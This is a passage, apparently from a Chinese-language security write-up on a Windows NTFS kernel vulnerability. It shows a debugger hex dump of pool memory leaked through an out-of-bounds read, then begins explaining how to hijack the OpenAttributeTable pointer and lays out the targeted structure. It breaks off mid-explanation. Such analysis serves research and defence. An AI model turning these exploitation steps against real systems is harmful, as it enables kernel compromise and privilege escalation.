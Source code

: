   
当然，在越界读取过程中复制的所有数据都会保留在内存池中，这使得获取一些有用的内存泄露信息成为可能。  

```
ffffba84`4c200018  ff ff ff ff 42 42 42 42-42 42 42 42 42 42 42 42  ....BBBBBBBBBBBB
ffffba84`4c200028  42 42 42 42 42 42 42 42-42 42 42 42 42 42 42 42  BBBBBBBBBBBBBBBB
ffffba84`4c200038  41 41 41 41 41 41 41 41-ff ff ff ff ff ff ff ff  AAAAAAAA........
...
fffba84`4c202ba8  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................ - - -
ffffba84`4c202bb8  00 00 00 00 00 00 00 00-34 00 38 00 39 00 30 00  ........4.8.9.0.      |
ffffba84`4c202bc8  45 00 46 00 46 00 34 00-31 00 33 00 34 00 38 00  E.F.F.4.1.3.4.8.      |
ffffba84`4c202bd8  41 00 32 00 44 00 33 00-46 00 41 00 31 00 30 00  A.2.D.3.F.A.1.0.      |
ffffba84`4c202be8  34 00 41 00 38 00 35 00-43 00 38 00 30 00 37 00  4.A.8.5.C.8.0.7.      |
ffffba84`4c202bf8  35 00 45 00 32 00 30 00-45 00 30 00 32 00 35 00  5.E.2.0.E.0.2.5.      |
ffffba84`4c202c08  46 00 37 00 43 00 46 00-34 00 30 00 44 00 30 00  F.7.C.F.4.0.D.0.       -  Leaked Data
ffffba84`4c202c18  30 00 34 00 45 00 32 00-42 00 43 00 31 00 43 00  0.4.E.2.B.C.1.C.      |
ffffba84`4c202c28  33 00 43 00 39 00 41 00-41 00 35 00 34 00 38 00  3.C.9.A.A.5.4.8.      |
ffffba84`4c202c38  36 00 35 00 46 00 34 00-97 81 50 e2 04 94 db 01  6.5.F.4...P.....      |
ffffba84`4c202c48  af 00 3e 3d d3 61 d8 01-9c 00 00 00 00 00 00 00  ..>=.a..........      |
ffffba84`4c202c58  00 00 3a 00 00 00 c6 44-80 de 6b 39 db 01 14 00  ..:....D..k9....      |
ffffba84`4c202c68  00 00 04 00 00 00 01 79-00 00 80 00 57 44 4d 43  .......y....WDMC - - -
```

## 漏洞利用 (Exploitation)  
  
我们可以劫持指向 
```
OpenAttributeTable
```

  
结构的指针。被劫持结构的内存布局如下所示：  

```
00000000 struct OPEN_ATTRIBUTE_DATA // sizeof=0x30
00000000 {
00000000     LIST_ENTRY Links;
00000010     __int32 OnDiskAttributeIndex;
00000014     __int8 AttributeNamePresent;
00000015     // padding byte
00000016     // padding byte
00000017     // padding byte
00000018     __int64 Scb;
00000020     UNICODE_STRING AttributeName;
00000030 };
```

  
该结构包含三个关键字段：  
- **Links**  
：实际类型为 
```
LIST_ENTRY
```
